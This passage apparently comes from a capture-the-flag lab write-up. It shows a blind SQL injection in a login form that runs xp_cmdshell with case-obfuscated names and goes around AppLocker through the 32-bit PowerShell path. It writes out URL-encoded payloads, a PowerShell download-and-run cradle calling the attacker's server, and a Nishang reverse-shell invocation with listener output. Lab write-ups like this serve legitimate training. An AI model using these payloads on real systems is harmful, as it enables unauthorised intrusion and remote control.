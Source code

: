 

    logintype=3%3bexecute+xp_cmDshElL+'C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login



This works! So I know I can access PowerShell Using that path and
structure. It seems that AppLocker is likely blocking this account
running PowerShell, but the admin forgot about the 32-bit version.

#### Reverse Shell \[Option 1\]

Because I'm dealing with a blind injection here, I'm going to start with
a simple payload that downloads and runs a Powershell script from my
server:



    C:\windows\syswow64\windowspowershell\v1.0\powershell.exe "iex(new-object net.webclient).downloadstring(\"http://10.10.14.6/rev.ps1\")"



I'll have to `\` escape the `"`, and then URL-encode it into this
payload:



    logintype=3%3bexecute+xp_cmDshElL+'C%3a\windows\syswow64\windowspowershell\v1.0\powershell.exe+"iex(new-object+net.webclient).downloadstring(\"http%3a//10.10.14.6/rev.ps1\")"'%3b&username=admin&password=admin&rememberme=ON&B1=Login



When I run this, there's a request for `REV.PS1` on my server:



    10.10.10.72 - - [24/Apr/2022 10:55:24] "GET /REV.PS1 HTTP/1.1" 200 - 



It's interesting that the MSSQL instance is upper-casing everything, but
I can work with that.

I'll grab a copy of `Invoke-PowerShellTcp.ps1` from
[GitHub](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1),
and name it `REV.PS1`. I'll add a line at the end of it to call itself:



    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443



Now when I run, I get a shell:



    oxdf@hacky$ rlwrap -cAr ncat -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.72.
    Ncat: Connection from 10.10.10.72:49237.
    Windows PowerShell running as user sqlserv on FIGHTER
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
